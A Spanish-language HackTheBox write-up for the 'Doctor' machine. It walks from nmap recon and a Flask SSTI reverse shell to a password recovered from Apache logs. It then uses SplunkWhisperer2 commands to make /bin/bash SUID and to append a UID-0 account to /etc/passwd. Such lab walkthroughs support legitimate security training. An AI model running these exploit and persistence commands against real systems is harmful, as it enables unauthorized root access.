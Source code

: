 ```yaml
---
title: HackTheBox - Doctor
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, SSTI, SplunkWhisperer2, 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Doctor/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Doctor Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **SSTI, SplunkWhisperer2, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Doctor`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Doctor/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Doctor/02-versions.png)


> Añadimos el host **`doctors.htb`** en el archivo **`/etc/hosts`**
{: .prompt-info }


c. Inspeccionamos el sitio **`http://doctor.htb`** y registramos una cuenta.

![](/assets/images/HTB/Easy/Doctor/03-web.png)

> El uso de Flask lo hace propenso a un **`SSTI`**
{: .prompt-info }

![](/assets/images/HTB/Easy/Doctor/04-ssti.png)

* Al no obtener un **`49`** como respuesta, indagamos en el código fuente de la página web, aquí, nos encontramos con un comentario que menciona una ruta que sea encuentra en 'beta'

![](/assets/images/HTB/Easy/Doctor/05-leakeage.png)

* Visitamos esta nueva ruta e inspeccionamos su código fuente

![](/assets/images/HTB/Easy/Doctor/05-xml.png)

> El payload es interpretado por lo cual el ataque **`SSTI`** funciona.

d. Nos encontablaremos una reverse shell [STTI - RCE](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

![](/assets/images/HTB/Easy/Doctor/06-reverse.png)

* Ahora, vamos a la ruta **`/archive`** y la recargamos, para ejecutar el comando.

    ![](/assets/images/HTB/Easy/Doctor/07-reverse.png)


### Escalada de Privilegios 💹

a. Vemos los grupos a los que pertenecemos

```bash
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

> El grupo **`adm`** está autorizado para ver archivos logs.
{: .prompt-info }

* En el directorio **`/var/log/apache2`** existe un archivo **`backup`** el cual no es usual, por lo que lo leemos en busca de alguna contraseña

```bash
web@doctor:/var/log/apache2$ grep -i 'pass' backup
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

b. Obtenemos la contraseña **`Guitar123`** y tenemos otro usuario en el sistema **`shaun`**, intentamos convertirnos en este usuario

```bash
web@doctor:/var/log/apache2$ su shaun
Password: Guitar123
shaun@doctor:/var/log/apache2$
```

e. Al no encontrar una forma de escalar privilegios, visitamos el otro sitio web que estaba disponible **`https://<IP Doctor>:8089`**

![](/assets/images/HTB/Easy/Doctor/08-splunk.png)

* Visitamos cada uno de los módulos, estos requieren de auntenticación, por lo que intentamos loguearnos con las credenciales **`shaun:Guitar123`**
* El módulo que contiene información interesante es **`services`** y si visitamos la ruta **`/services/admin/users`** veremos que **`shaun`** es administrador del sistema.

f. Buscamos vulnerabilidades asociadas a **`splunk`** [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2) y [Splunk - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence)

* Una vez descargado el exploit podemos ejecutar comandos como **`root`**

```bash
> python PySplunkWhisperer2_remote.py --host [IP Doctor] --port 8089 --lhost [tun0 IP]  --username shaun --password Guitar123 --payload "chmod +s /bin/bash"
```

* Con esto la bash ya tiene el permiso **`SUID`** y podemos spawnear una como **`root`**

    ```bash
    shaun@doctor:/var/log/apache2$ ls -la /bin/bash
    -rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
    shaun@doctor:/var/log/apache2$ bash -p
    bash-5.0# whoami
    root
    ```

* También podemos agregar un usuario en el fichero **`/etc/passwd`**

```bash
> openssl passwd hola
$1$EHU.NHFo$95A.r07oTWCErDLLwtbV9.

> python PySplunkWhisperer2_remote.py --host [IP Doctor] --port 8089 --lhost [tun0 IP]  --username shaun --password Guitar123 "echo 'testing:\$1\$EHU.NHFo\$95A.r07oTWCErDLLwtbV9.:0:0::/home:/bin/bash' >> /etc/passwd"

<SNIP>
[ENTER]
```

* Si nos convertimos en **`testing`** tendremos una shell como **`root`**

    ```bash
    shaun@doctor:/var/log/apache2$ tail -n 1 /etc/passwd
    testing:$1$EHU.NHFo$95A.r07oTWCErDLLwtbV9.:0:0::/home:/bin/bash
    shaun@doctor:/var/log/apache2$ su testing
    Password: hola
    root@doctor:/var/log/apache2#
    ```